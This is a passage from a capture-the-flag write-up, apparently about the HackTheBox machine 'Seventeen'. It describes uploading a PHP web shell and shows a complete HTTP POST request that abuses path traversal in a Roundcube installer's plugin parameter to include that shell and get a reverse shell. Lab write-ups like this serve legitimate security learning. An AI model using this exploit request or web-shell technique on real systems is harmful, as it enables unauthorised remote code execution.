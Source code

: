 We find that it stores the uploads at `/files/<studentID>/uploads`. We can then verify the upload works by uploading a malicious `papers.php`. This name is required based on the PoC requiring our PHP file to have the same name as the directory it is in. This just contains a basic shell executed by PHP `system` calls.&#x20;

<figure><img src="../../../.gitbook/assets/image (64) (3) (2).png" alt=""><figcaption></figcaption></figure>

Great! However, when I tried the exploit the first time, it wouldn't work for some reason. Turns out, we did not find the right directory where the files are stored. Running a ferox`buster` scan for the upload directory would reveal another one.

<figure><img src="../../../.gitbook/assets/image (98) (1) (4).png" alt=""><figcaption></figcaption></figure>

The `/papers` directory seems to be where they are stored. After that, we can perform the RCE. Following the PoC, we need to send this POST request via Burp.

```http
POST /mastermailer/installer/index.php HTTP/1.1
Host: mastermailer.seventeen.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 151
Origin: http://mastermailer.seventeen.htb:8000
Connection: close
Referer: http://mastermailer.seventeen.htb:8000/mastermailer/installer/index.php?_step=2
Cookie: roundcube_sessid=0079ef9d79a86aca5a54c76332de69f7; PHPSESSID=a9925c706077e5d6179ed37f9839f323
Upgrade-Insecure-Requests: 1



_step=2&_product_name=Seventeen+Webmail&_plugins_qwerty=../../../../../../../../../var/www/html/oldmanagement/files/31234/papers&submit=UPDATE+CONFIG
```

After sending this, we just need to reload the page and we would catch a reverse shell.
